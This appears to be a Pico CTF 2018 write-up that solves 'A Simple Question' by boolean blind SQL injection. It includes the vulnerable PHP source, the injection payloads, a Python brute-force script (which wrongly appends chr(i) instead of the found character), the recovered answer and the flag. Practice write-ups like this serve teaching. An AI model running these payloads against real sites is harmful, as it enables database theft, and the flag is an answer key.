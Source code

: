 ```yaml
---
layout: posts
title:  Pico CTF 2018 - A Simple Question
date:   2018-09-27
categories: [CTFs, pico18]
---
```


[~$ cd ..](/ctfs/pico18/2018/09/27/index.html)

>There is a website running at http://2018shell1.picoctf.com:2644 (link).
>Try to see if you can answer its question.

We are expected to answer the question "What is the answer?". What a broad issue!

![site](/assets/res/CTFs/pico18/simple_question/site.png)

We quickly saw where was the problem by sending only a single quote:

![inject](/assets/res/CTFs/pico18/simple_question/inject.png)

By looking at the HTML source code, we found that we could have the PHP source by reading `answer2.phps`:

> ```php
><?php
>	include "config.php";
>	ini_set('error_reporting', E_ALL);
>	ini_set('display_errors', 'On');
>
>	$answer = $_POST["answer"];
>	$debug = $_POST["debug"];
>	$query = "SELECT * FROM answers WHERE answer='$answer'";
>	echo "<pre>";
>	echo "SQL query: ", htmlspecialchars($query), "\n";
>	echo "</pre>";
>?>
><?php
>	$con = new SQLite3($database_file);
>	$result = $con->query($query);
>
>	$row = $result->fetchArray();
>	if($answer == $CANARY)  {
>		echo "<h1>Perfect!</h1>";
>		echo "<p>Your flag is: $FLAG</p>";
>	}
>	elseif ($row) {
>		echo "<h1>You are so close.</h1>";
>	} else {
>		echo "<h1>Wrong.</h1>";
>	}
>?>
> ```

We can see here that if the query returns an empty set, "Wrong" is displayed. In case of failure, the error is shown, and if the query returns more than one row,
we get a "You are so close".

Let's try with a smarter payload: **' or (select count(*) from answers) > 0 or '"**

![close](/assets/res/CTFs/pico18/simple_question/close.png)

and with: **' or (select count(*) from answers) > 1 or '"**

![wrong](/assets/res/CTFs/pico18/simple_question/wrong.png)

Okay, then there is only one row.

We first tried to determine the length of the string to extract by testing multiple values for `x`: **' or (select length(answer) from answers) =x  or '**, and found that
the password is a 14-letters word.

The extraction script will send **' or (select substr(answer,x,1) from answers) = char(y) or '**, by iterating from 1 to 14 for `x` and from 1 to 255 for `y`.

> ```python
>import requests
>
>def brute(i):
>	for x in xrange(1,255):
>		params = {"answer": "' or (select substr(answer,"+str(i)+",1) from answers) = char("+str(x)+") or '", "debug":"0"}
>		r = requests.post("http://2018shell1.picoctf.com:2644/answer2.php", data=params)
>		if "You are so close" in r.text:
>			print x
>			return x
>		elif "Warning" in r.text:
>			print r.text
>			return 0
>i = 1
>extract = ''
>while i <15:
>	char = brute(i)
>	if char == 0:
>		print extract
>		break
>	extract += chr(i)
>	i+=1
> ```

Returned values are: **52,49,65,110,100,83,105,120,83,105,120,116,104,115**, which gives us:

> ```python
>print "".join(chr(x) for x in [52,49,65,110,100,83,105,120,83,105,120,116,104,115])
>41AndSixSixths
> ```

By sending this answer back to the server, we got as answer:

> ```
>Perfect!
>
>Your flag is: picoCTF{qu3stions_ar3_h4rd_28fc1206}
> ```
